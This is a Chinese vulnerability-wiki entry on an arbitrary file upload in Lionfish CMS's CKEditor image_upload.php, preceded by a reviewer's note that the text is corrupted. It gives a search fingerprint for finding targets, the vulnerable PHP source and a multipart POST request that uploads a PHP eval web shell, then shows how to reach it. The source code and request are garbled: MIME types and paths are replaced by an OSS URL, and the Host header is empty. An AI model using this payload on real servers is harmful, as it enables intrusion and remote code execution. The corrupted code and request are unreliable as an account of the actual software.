


## 核对与使用边界

- 明确更正：源码中的图像 MIME 字符串被替成 OSS URL，upfile 本地路径与响应地址也混入该 URL；`Content-Type: OSSURL` 不是有效的 image/gif 等 MIME，此材料已被转录污染。
- 原 HTTP/2 文本报文、空 Host、结束边界长破折号保留为有问题样本。尚无可核原始实现和补丁，不把 URL 自动替回猜测内容，也不据被污染代码判定所有部署的上传结果。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：publicimage_upload.phpclaimed; filesmultipart; attackerMIME; PHPexecution;versionunknown

- **证据待核（1）**：MIME白名单原应image/gif等被全替换为OSSURL，连upfile本地路径/返回URL都污染，当前代码不代表真实实现。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（2）**：正文竟要求Content-Type:OSSURL，PoC不是有效imageMIME且与产品原白名单可能不符，需回源恢复。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（3）**：HTTP/2文本式报文、Host空、结束边界长破折号均排版损坏。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（4）**：getimagesize未检失败但PHP版本行为/文件移动应核；原始代码显示保留扩展可支持上传原语。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（5）**：没有版本/官方出处，708实验15.2.0可关联不自动确认范围。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 狮子鱼CMS image_upload.php 任意文件上传

## 漏洞描述

狮子鱼CMS使用CK编辑器，存在图片上传的绕过，造成 image_upload.php 任意文件上传

## 漏洞影响

```
狮子鱼CMS
```

## 网络测绘

```
"/seller.php?s=/Public/login"
```

## 漏洞复现

登录页面如下


漏洞文件为 CK编辑器的 image_upload.php

```php
<?php
 define ( 'IN_BAMBOO', true );
 // 取得根目录
define ( 'ROOT_PATH', '../../../../' );  // back to your root path

$arrType = array (
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/png',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/bmp',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/pjpeg',
		'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/jpeg' 
);
$max_size = 500 * 1024; // 最大文件限制（单位：byte）
$upfile = ROOT_PATH.'http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads'; // 图片目录路径
if (!isset($_FILES ['files'])){
	echo '{"result":"400","msg":"未能找到图片，请确认图片是否过大"}';
	exit ();
}
$file = $_FILES ['files'];

if ($_SERVER ['REQUEST_METHOD'] == 'POST') { // 判断提交方式是否为POST
	if (! is_uploaded_file ( $file ['tmp_name'] )) { // 判断上传文件是否存在
		echo '{"result":"400","msg":"图片不存在"}';
		exit ();
	}
	
	if ($file ['size'] > $max_size) { // 判断文件大小是否大于500000字节
		echo '{"result":"400","msg":"上传图片太大，最大支持：'.($max_size/1024).'KB"}';
		exit ();
	}
	if (! in_array ( $file ['type'], $arrType )) { // 判断图片文件的格式
		echo '{"result":"400","msg":"上传图片格式不对"}';
		exit ();
	}
	if (! file_exists ( $upfile )) { // 判断存放文件目录是否存在
		mkdir ( $upfile, 0777, true );
	}
	$imageSize = getimagesize ( $file ['tmp_name'] );
	$img = $imageSize [0] . '*' . $imageSize [1];
	$fname = $file ['name'];
	$ftype = explode ( '.', $fname );
	$time = explode ( " ", microtime () );
	$time = $time [1] . ($time [0] * 1000);
	$time2 = explode ( ".", $time );  
	$time = $time2 [0];
	$returnName=$time."." .end($ftype);
	$picName = $upfile . "/" . $returnName ;
	
	if (! move_uploaded_file ( $file ['tmp_name'], $picName )) {
		echo '{"result":"400","msg":"从:'.$file ['tmp_name'].'移动图片到:'.$picName.'出错"}';
		exit ();
	} else {
		echo '{"result":"200","imgurl":"http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/' . $returnName . '"}';
	}
}

?>
```

其中使用 **Content-Type:** [**http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif**](http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif)  即可绕过上传PHP文件

```plain
POST /Common/ckeditor/plugins/multiimg/dialogs/image_upload.php HTTP/2
Host: 
Content-Type: multipart/form-data;boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Length: 208

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="files"; filename="test.php"
Content-Type: http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/gif

<?php @eval($_POST[test]);?>
------WebKitFormBoundary8UaANmWAgM4BqBSs—
```




访问返回的文件路径

```plain
/Common/http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/uploads/xxxxx.php
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
